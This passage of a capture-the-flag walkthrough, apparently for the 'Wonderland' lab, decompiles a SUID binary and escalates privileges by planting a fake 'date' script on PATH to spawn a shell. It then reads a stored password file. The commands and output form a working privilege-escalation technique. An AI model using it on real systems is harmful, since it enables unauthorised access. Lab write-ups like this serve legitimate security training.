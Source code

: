 Let's download the file to analyze it locally. You can do that by running a python web server from `/home/rabbit` (`python -m http.server`) and by downloading it with wget on your machine (`wget http://10.10.125.113:8000/teaParty`).

Below is the pseudo c code displayed by Hopper:

```c
void main() {
    setuid(0x3eb);
    setgid(0x3eb);
    puts("Welcome to the tea party!\nThe Mad Hatter will be here soon.");
    system("/bin/echo -n 'Probably by ' && date --date='next hour' -R");
    puts("Ask very nicely, and I will give you some tea while you wait for him");
    getchar();
    puts("Segmentation fault (core dumped)");
    return;
}
```

As we can see, the executable will display a fake segmentation fault message. It is run as root and has the SUID bit set. It manipulates the `date` function to echo the current datetime + 1 hour. This is likely something we can exploit by hooking the date function.

~~~
rabbit@wonderland:/home/rabbit$ cat > date << EOF
#!/bin/bash
/bin/bash
EOF
rabbit@wonderland:/home/rabbit$ chmod +x date
rabbit@wonderland:/home/rabbit$ export PATH=/home/rabbit:$PATH
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ 
hatter@wonderland:/home/rabbit$ 
hatter@wonderland:/home/rabbit$ whoami
hatter
~~~

## From hatter to root (privesc)

Now that we have successfully switched to the `hatter` user, let's check what we have in our home directory:

~~~
hatter@wonderland:/home/rabbit$ cd /home/hatter/
hatter@wonderland:/home/hatter$ cat password.txt 
WhyIsARavenLikeAWritingDesk?
~~~

This is our password. We can check our privileges, but we have none, actually:

~~~
hatter@wonderland:/home/hatter$ sudo -l
[sudo] password for hatter: 
Sorry, user hatter may not run sudo on wonderland.
~~~
